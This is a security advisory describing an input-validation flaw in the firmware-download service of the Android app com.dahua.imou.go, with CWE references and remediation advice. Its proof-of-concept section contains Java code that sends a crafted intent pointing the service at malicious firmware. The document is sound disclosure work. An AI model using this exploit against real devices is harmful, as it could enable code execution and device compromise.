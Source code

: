 The`com.oneed.dvr.service.DownloadFirmwareService` component within the Android app `com.dahua.imou.go` possesses a vulnerability. An remote attacker(via a malicious app can control the URL path of firmware downloads, potentially leading to arbitrary code execution or a compromised device state.

### Details

- **Affected Component**: `com.oneed.dvr.service.DownloadFirmwareService`
- **Affected Application**: `com.dahua.imou.go`
- **Vulnerability Type**: Improper Input Validation / Arbitrary File Write
- CWE-20: Improper Input Validation - This weakness describes a failure to sanitize, filter, or verify data or input.
- CWE-494: Download of Code Without Integrity Check - This weakness points to systems that download code without ensuring the authenticity or source integrity.

### Description

The `com.oneed.dvr.service.DownloadFirmwareService` in the app `com.dahua.imou.go` retrieves a firmware download URL from incoming intents. The service does not validate the origin or authenticity of this intent, nor does it verify the integrity of the downloaded content. This vulnerability exposes devices to:

1. Attacker-controlled intents with malicious firmware URLs.
2. Potential downloads, storage, and execution of malicious firmware.

### Proof of Concept (PoC)

#### Java Android PoC Sample Code:

```java
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

public class MaliciousActivity extends AppCompatActivity {
   
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_malicious);
       
        // Intent targeting the vulnerable service
        Intent exploitIntent = new Intent();
        exploitIntent.setComponent(new ComponentName("com.dahua.imou.go", "com.oneed.dvr.service.DownloadFirmwareService"));
       
        // Setting malicious firmware URL
        Uri maliciousURL = Uri.parse("/malicious-firmware.bin");
        exploitIntent.setData(maliciousURL);
       
        // Send the intent to exploit the vulnerability
        startService(exploitIntent);
    }
}
```

### Impact

- Arbitrary code execution: If the malicious firmware is loaded and executed, it allows an attacker to execute arbitrary code on the device.
- Modified device behavior: An attacker can change the behavior of the device, leading to potential data exposure or unauthorized device actions.

### Recommendation

1. Implement stringent input validation to ensure only valid firmware URLs are accepted.
2. Utilize cryptographic checks (like signature verification) to ascertain the integrity of downloaded firmware.
3. Set intent permissions or restrict the exported nature of the service, limiting its accessibility.

### References

- [CWE-20: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)
- [CWE-494: Download of Code Without Integrity Check](https://cwe.mitre.org/data/definitions/494.html)
